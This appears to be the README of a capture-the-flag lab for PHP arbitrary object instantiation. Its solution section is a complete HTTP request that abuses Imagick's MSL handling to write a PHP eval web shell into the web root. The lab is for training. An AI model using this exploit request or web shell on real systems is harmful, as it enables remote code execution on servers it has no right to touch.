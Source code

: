 # arbitrary-object-instantiation

A PHP, Arbitrary Object Instantiation Lab by [@leonjza](https://twitter.com/leonjza).

A challenge / playground for the bug described [here](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

## build

Build the container, specifying the flag you want for the challenge with the `--build-arg` value:

```text
docker build -t apoi:local . --build-arg flag_value="flag{your_flag}"
```

## solution

Write a shell so you could exec something like `system('env');`

```text
POST /image.php?module=Imagick&params=vid:msl:/tmp/php*&size=1 HTTP/1.1
Host: localhost
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryABOhqQ5dmxPyigV2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryABOhqQ5dmxPyigV2
Content-Disposition: form-data; name="pictures"; filename="pew.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 <write filename="info:/var/www/html/shell.php" />
</image>

------WebKitFormBoundaryABOhqQ5dmxPyigV2--
```
